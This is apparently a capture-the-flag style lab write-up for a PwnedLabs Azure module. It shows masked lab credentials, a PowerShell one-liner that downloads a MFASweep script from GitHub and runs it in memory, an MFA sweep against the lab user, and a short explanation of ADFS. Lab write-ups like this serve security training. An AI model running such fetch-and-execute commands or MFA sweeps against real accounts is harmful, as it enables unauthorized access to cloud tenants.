 This write-up is based on PwnedLabs.io’s free module, Loot Exchange, Teams and SharePoint with GraphRunner, which offers top-notch content at an unbeatable price. While I’m not affiliated with PwnedLabs.io, I highly recommend their resources. Learn more about their subscription options at [PwnedLabs.io/pricing](https://pwnedlabs.io/pricing).



---



### Start with Credentials
```
#### Azure credentials

##### Password: *****

##### IAM User: Clara.Miller@megabigtech.com
```

# Key Takeaways
1. Identify MFA-enabled and disabled services!

# 1. MFA Sweeps

Download MFA Sweeps:

```
IEX (iwr 'https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1')

Invoke-MFASweep -Username Clara.Miller@megabigtech.com -Password ***** -Recon -IncludeADFS
```

It will output a lot of data. The last table summarizes the results well.

![](https://i.imgur.com/Us13Hrf.png)

The second thing I noticed was a sentence in blue:
`ADFS does not appear to be in use. Authentication appears to be managed by Microsoft.`

![](https://i.imgur.com/tRXoUHh.png)

---

## 1.1 What is ADFS and What Does This Mean?

Active Directory Federation Services (ADFS) is a tool that helps connect a company's local network (on-premises) to cloud services. It allows employees to use their regular work login to access both on-premises apps and cloud apps without needing a separate cloud password. **It is similar to a single sign-on service.** More information can be found here: [../Azure Services/Active Directory Federation Services (ADFS)](<../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Active Directory Federation Services (ADFS).md>).
